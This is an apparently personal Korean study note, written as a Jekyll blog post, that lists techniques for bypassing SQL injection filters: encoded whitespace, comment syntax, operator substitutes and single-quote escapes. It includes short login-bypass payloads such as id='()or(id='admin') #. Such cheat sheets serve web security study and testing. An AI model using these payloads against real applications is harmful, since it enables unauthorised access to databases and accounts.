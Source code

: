 ```yaml
---
title : "SQL injection 필터링 우회"
excerpt : "SQL injection 필터링 우회"
toc : true
toc_sticky : true
categories :
  - Web
tags :
  - SQL injection
---
```


## 공백 문자 우회
```
\n(Line Feed) -> %0a

\t(TAB) -> %09

\r(Carrage Return) -> %0d

/**/(주석)

괄호() ex) id='()or(id='admin') #

더하기(+) ex) id='+or+id='admin' #

%0b, %0c
```

## 논리연산자 우회
```
or -> ||

AND -> && -> %26%26
```

## 비교연산자 우회
```
= -> like, in으로 대체
```

## 주석처리
```
1. -- 공백 -> -- 뒤에 공백 있어야 함, 한줄 주석

2. # -> %23 -> 한줄 주석

3. /* */ -> 사이에 있는 문자열만 주석 

4. ;%00 -> ;와 NULL이 합쳐진 주석
```

## 싱글쿼터 우회
```
1. 더블쿼터 사용

2. 백슬래쉬 사용(\) ex) id='\' and pw='or 1 #'
-> id 값으로 \' and pw=이 들어가고 그 뒤에 or 1 # 되면서 작동
```